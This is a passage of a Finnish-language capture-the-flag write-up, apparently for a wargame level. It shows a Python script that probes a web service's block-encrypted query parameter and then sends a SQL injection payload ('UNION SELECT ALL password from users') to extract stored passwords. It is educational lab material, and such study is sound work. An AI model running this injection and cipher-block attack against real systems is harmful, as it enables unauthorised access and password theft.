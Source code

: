 ```
    encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
    encrypted_raw_length = len(encrypted_raw)
    print("input Length: " + str(data_length) + " Encrypted query Length: " + str(encrypted_raw_length))
    block_size = 32
    for i in range(encrypted_raw_length // block_size):
        print(encrypted_raw[block_size * i : block_size * (i + 1)])
    print("=" * 40)

# Tarkka testisyöte: "a"*11 + "!"
data = {"query": "a" * 11 + "!"}
data_length = len(data['query'])
res = requests.post(url=url, data=data, auth=(username, password))
encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
encrypted_raw_length = len(encrypted_raw)
print("input Length: " + str(data_length) + " Encrypted query Length: " + str(encrypted_raw_length))
for i in range(encrypted_raw_length // block_size):
    print(encrypted_raw[block_size * i : block_size * (i + 1)])
print("=" * 40)

# Tarkka testisyöte: "a"*12
data = {"query": "a" * 12}
data_length = len(data['query'])
res = requests.post(url=url, data=data, auth=(username, password))
encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
encrypted_raw_length = len(encrypted_raw)
print("input Length: " + str(data_length) + " Encrypted query Length: " + str(encrypted_raw_length))
for i in range(encrypted_raw_length // block_size):
    print(encrypted_raw[block_size * i : block_size * (i + 1)])
print("=" * 40)

# Tarkka testisyöte ja tässä tapahtuu SQL injektio osuus:
data = {"query":"a'*10+' UNION SELECT ALL password from users; #"}
data_length = len(data['query'])

res = requests.post(url=url, data=data, auth=(username, password))
encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
encrypted_raw_length = len(encrypted_raw)
print("input Length: "+str(data_length)+" Encrypted query Length: "+str(encrypted_raw_length)+"\n")

block_size = 32
for i in range(encrypted_raw_length//block_size):
    print(encrypted_raw[block_size*i:block_size*(i+1)])
print("="*40)
```


**TULOS** skippasin osan, ettei tule turhan pitkä tulosta ja tuloksena on **input length 46 encrypted query length: 256** osa.
